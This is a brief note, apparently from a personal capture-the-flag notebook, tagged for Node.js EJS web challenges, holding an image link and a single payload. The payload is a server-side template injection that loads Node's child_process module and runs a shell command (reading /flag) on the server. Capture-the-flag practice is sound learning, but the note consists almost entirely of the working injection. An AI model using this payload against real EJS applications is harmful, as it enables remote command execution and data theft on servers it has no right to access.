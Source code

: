 tags:: CTFWEB/NodeJS/EJS

- # payload
	- `<%=global.process.mainModule.constructor._load('child_process').execSync("cat /flag")%>`
-
-